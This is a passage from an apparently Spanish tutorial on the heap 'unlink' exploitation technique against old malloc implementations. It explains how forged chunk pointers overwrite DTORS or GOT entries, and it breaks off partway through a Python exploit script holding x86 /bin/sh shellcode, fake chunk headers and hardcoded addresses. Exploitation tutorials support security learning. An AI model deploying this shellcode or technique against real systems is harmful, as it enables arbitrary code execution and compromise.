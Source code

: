 unlink(){\
BK = P->bk; —> El BK del nuevo chunk es el que tuviese el que ya estaba libre antes\
FD = P->fd; —> El FD del nuevo chunk es el que tuviese el que ya estaba libre antes\
FD->bk = BK; —> El BK del siguiente chunk apunta al nuevo chunk\
BK->fd = FD; —> El FD del anterior chunk apunta al nuevo chunk\
}

Por lo tanto si conseguimos modificar el P->bk con la dirección de un shellcode y el P->fd con la dirección a una entrada en la GOT o DTORS menos 12 se logra:

BK = P->bk = \&shellcode\
FD = P->fd = &\_\_dtor\_end\_\_ - 12\
FD->bk = BK -> \*((&\_\_dtor\_end\_\_ - 12) + 12) = \&shellcode

Y así se se ejecuta al salir del programa la shellcode.

Además, la 4º sentencia de unlink() escribe algo y la shellcode tiene que estar reparada para esto:

BK->fd = FD -> \*(\&shellcode + 8) = (&\_\_dtor\_end\_\_ - 12) —> Esto provoca la escritura de 4 bytes a partir del 8º byte de la shellcode, por lo que la primera instrucción de la shellcode debe ser un jmp para saltar esto y caer en unos nops que lleven al resto de la shellcode.

Por lo tanto el exploit se crea:

En el buffer1 metemos la shellcode comenzando por un jmp para que caiga en los nops o en el resto de la shellcode.

Después de la shell code metemos relleno hasta llegar al campo prev\_size y size del siguiente trozo. En estos sitios metemos 0xfffffff0 (de forma que se sobrescrita el prev\_size para que tenga el bit que dice que está libre) y “-4“(0xfffffffc) en el size (para que cuando compruebe en el 3º trozo si el 2º estaba libre en realidad vaya al prev\_size modificado que le dirá que s´está libre) -> Así cuando free() investigue irá al size del 3º pero en realidad irá al 2º - 4 y pensará que el 2º trozo está libre. Y entonces llamará a **unlink()**.

Al llamar a unlink() usará como P->fd los primeros datos del 2º trozo por lo que ahí se meterá la dirección que se quieres sobreescribir - 12(pues en FD->bk le sumará 12 a la dirección guardada en FD) . Y en esa dirección introducirá la segunda dirección que encuentre en el 2º trozo, que nos interesará que sea la dirección a la shellcode(P->bk falso).

**from struct import \***

**import os**

**shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes de relleno**

**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Interesa que el bit que indica que el anterior trozo está libre esté a 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, para que piense que el “size” del 3º trozo está 4bytes detrás (apunta a prev\_size) pues es ahí donde mira si el 2º trozo está libre**

**addr\_sc = pack("\<I", 0x0804a008 + 8) #En el payload al principio le vamos a poner 8bytes de relleno**

